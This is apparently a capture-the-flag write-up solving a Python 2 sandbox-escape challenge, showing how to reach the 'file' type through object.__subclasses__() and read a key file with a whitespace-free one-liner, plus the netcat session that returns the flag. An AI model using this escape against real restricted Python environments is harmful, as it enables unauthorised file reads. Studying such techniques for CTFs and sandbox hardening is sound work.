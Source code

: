 
It inherits directly from object. I wonder what else does:

```python
>>> ().__class__.__bases__[0].__subclasses__()
[<type 'weakproxy'>, <type 'int'>, <type 'basestring'>,
<type 'bytearray'>, <type 'list'>, <type 'NoneType'>,
<type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>,
<type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>,
<type 'staticmethod'>, <type 'complex'>, <type 'float'>,
<type 'buffer'>, <type 'long'>, <type 'frozenset'>,
<type 'property'>, <type 'memoryview'>, <type 'tuple'>,
<type 'enumerate'>, <type 'reversed'>, <type 'code'>,
<type 'frame'>, <type 'builtin_function_or_method'>,
<type 'instancemethod'>, <type 'function'>, <type 'classobj'>,
<type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>,
<type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>,
<type 'member_descriptor'>, <type 'file'>, <type 'sys.long_info'>,
... and more!
```


We have everything we need right here!

Then I was able to find the index of `file` in the list with a few simple lines:

```python
>>> all_classes = []
>>> for entry in ().__class__.__bases__[0].__subclasses__():
...     all_classes.append(entry.__name__)
...
>>> all_classes.index("file")
40
```

We can't use this code (even rewritten as a list comprehension) in the challenge, because it includes whitespace. But since `file` is at index 40, we can hard-code that.

```python
>>> ().__class__.__bases__[0].__subclasses__()[40]
<type 'file'>
```

Once we have a reference to the file, all we need to do is create a file object and read it:

```python
>> ().__class__.__bases__[0].__subclasses__()[40]("./key").read()
"This works"
```

So to solve the challenge:

```bash
moshe@moshe-desktop:~$ netcat ctf.fluxfingers.net 2045
Go Ahead, Expoit me >;D
().__class__.__bases__[0].__subclasses__()[40]("./key").read()
().__class__.__bases__[0].__subclasses__()[40]("./key").read()
Return Value: FvibLF0eBkCBk
```
